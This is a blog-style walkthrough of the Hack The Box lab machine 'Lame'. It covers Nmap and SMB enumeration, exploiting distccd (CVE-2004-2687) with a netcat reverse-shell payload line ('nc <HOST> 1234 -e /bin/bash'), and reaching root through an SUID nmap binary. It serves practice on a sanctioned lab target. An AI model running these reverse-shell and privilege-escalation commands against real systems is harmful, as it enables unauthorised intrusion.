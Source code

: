 # HTB - Lame

I decided to work on TJ Null's list of Hack The Box machines even though I'm not prepping for OSCP because I thought it might be a fun way to practice now that I have HTB VIP. The first machine on the list is Lame, so let's get to it!

##  Initial Foothold

The first thing I did was run an initial Nmap scan with the following tags `-sC`, -`sV`, `-vv`, `-Pn` to use the default scripts, enumerate the services in the ports found,  enable a verbose output and disable host discovery. I used `-oN` to save the ouput of the command (it's always a good idea to do so). The final command is `nmap -sC -sV 10.10.10.3 -vv -Pn -oN nmap/initial`.

![Initial nmap scan](/images/Lame/nmap_initial.png)

Nmap has found ports 21 (FTP), 22 (SSH), 139 and 445, which are related to smb.

I decided to investigate these further but while doing that, I ran a more aggressive scan on all ports with tags `-A` and `-p-`: `nmap -A -p- -sC -sV 10.10.10.3 -vv -Pn -oN nmap/aggressive`.

The first thing I took a look at was the FTP service where FTP anonymous could be used (login with `anonymous`, no password) however the directory seemed to be completely empty so I quickly moved on to looking at the smb services.

I used `smbmap` to see what I could access: `smbmap -H 10.10.10.3`

![Smbmap](/images/Lame/smbmap.png)

The only share that I could take a look at was `tmp`, so I did so using `smbclient`: `smbclient \\\\10.10.10.3\\tmp`:

![smbclient tmp list](/images/Lame/smbclient_tmp.png)

Taking a look around, there wasn't much that I had access to that looked interesting, except maybe vgauthsvclog.txt.0:

![vgauthsvclog.txt.0](/images/Lame/vgauthsvclog.txt.0.png)

This is linked to the VMware Guest Authentication Service, I thought that this could be used to obtain access on the machine but since it looked like it could be a rabbit hole, I decided to first take a look at the output of my aggressive nmap scan which had the following new service:

```
3632/tcp open  distccd     syn-ack distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

A quick google search showed that this service had a CVE on record. I used the following command to check if the service running on the machine is vulnerable to that CVE: `nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 -Pn -oN nmap/vuln`.

![Nmap vulnerability check scan](/images/Lame/nmap_vuln.png)

Since it's vulnerable, I looked for an exploit and found [one in python](https://github.com/galenlim/distcc-exploit-python). The only thing I needed to was change the line containing the payload to my host ip and the port I would be listening to with netcat. `payload = "nc <HOST> 1234 -e /bin/bash"`. I then ran a netcat listener on my attacking machine: `nc -lnvp 1234` and the exploit with `./exploit.py 10.10.10.3 3632` and this got me a shell.

## Privilege escalation

I used this following command to get an interative shell `python -c 'import pty; pty.spawn("/bin/bash")'` and found the user flag in `/home/makis`:

![User flag location](/images/Lame/user_loc.png)

I found 4 main directories in `/home`:

- `ftp` -> empty

- `makis` -> user flag and `.sudo_as_admin_successful` -> so we know it has used sudo before

- `service` -> basically empty

- `user`:

    `.ssh` -> looks interesting but we don't have reading access

At this point, I realised that I could enter `/root` and list its files:

![Files in root directory](/images/Lame/root_ls.png)

A couple things looked interesting but it didn't seem like I had enough access to any of them to do something useful so I decided to look for SUID binaries in the machine with the following command: `find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000`

![SUID binaries](/images/Lame/suid.png)

`/usr/bin/nmap` jumped out to me and by running `nmap --interactive` and then running `!sh`, I landed a root shell. I was then able to read the `/root/root.txt` which is the final flag:

![Root through namp](/images/Lame/root.png)

